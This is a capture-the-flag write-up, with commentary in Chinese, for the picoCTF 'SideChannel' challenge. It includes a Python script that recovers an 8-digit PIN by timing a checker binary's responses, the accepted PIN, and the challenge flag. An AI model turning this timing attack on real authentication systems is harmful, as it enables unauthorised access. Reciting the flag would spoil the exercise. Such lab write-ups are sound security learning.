 ```yaml
---
title: PicoCTF - SideChannel
tags: [PicoCTF, CTF, Misc]

category: "Security/Practice/PicoCTF/Misc/General"
---
```


# PicoCTF - SideChannel
## Description
> There's something fishy about this PIN-code checker, can you figure out the PIN and get the flag? Download the PIN checker program here pin_checker Once you've figured out the PIN (and gotten the checker program to accept it), connect to the master server using nc saturn.picoctf.net 50364 and provide it the PIN to get your flag.
> 
> Hint 1: Read about "timing-based side-channel attacks."
> Hint 2: Attempting to reverse-engineer or exploit the binary won't help you, you can figure out the PIN just by interacting with it and measuring certain properties about it.
> Hint 3: Don't run your attacks against the master server, it is secured against them. The PIN code you get from the pin_checker binary is the same as the one for the master server.
## Recon
這一題也是直接看[^this-problem-wp]才知道怎麼解，應該說原本大概也猜到是這樣解，但過程一直不順利，所以沒寫出來，最主要是一開始沒看hint所以reverse/binary exploitation花了太多時間，結果一無所獲，但大致上思路沒差多少，也就是輸入的pin digit如我是對的就會比一般錯誤的pin digit還要多花點時間處理，所以我們就可以鎖定每一個digit原本到底是甚麼
## Exploit
```python
from time import *
from subprocess import *
from tqdm import trange

time_lapse = []
guess_pin = list("99999999")
for i in trange(8):
    for j in range(10):
        guess_pin[i] = str(j)
        payload = "".join(guess_pin)
        start = time_ns()
        p = Popen("./pin_checker", stdin=PIPE, stdout=PIPE, universal_newlines=True, shell=True)
        p.communicate(input=payload)
        time_lapse.append(time_ns() - start)
    guess_pin[i] = str(time_lapse.index(max(time_lapse)))
    time_lapse = []

print("".join(guess_pin))
```
另外這隻程式不是百分百保證成功，還是要多跑幾次確定一下是不是每次都一樣再進行確認

```bash
$ echo 48390513 | ./pin_checker
Please enter your 8-digit PIN code:
8
Checking PIN...
Access granted. You may use your PIN to log into the master server.
$ echo 48390513 | nc saturn.picoctf.net 50364
Verifying that you are a human...
Please enter the master PIN code:
Password correct. Here's your flag:
picoCTF{t1m1ng_4tt4ck_9803bd25}
```

Flag: `picoCTF{t1m1ng_4tt4ck_9803bd25}`
## Reference
[^this-problem-wp]:[ picoGym (picoCTF) Exercise: SideChannel ](https://youtu.be/6-GmrNobEyA?si=0HVfVpNwLT_yNm3G)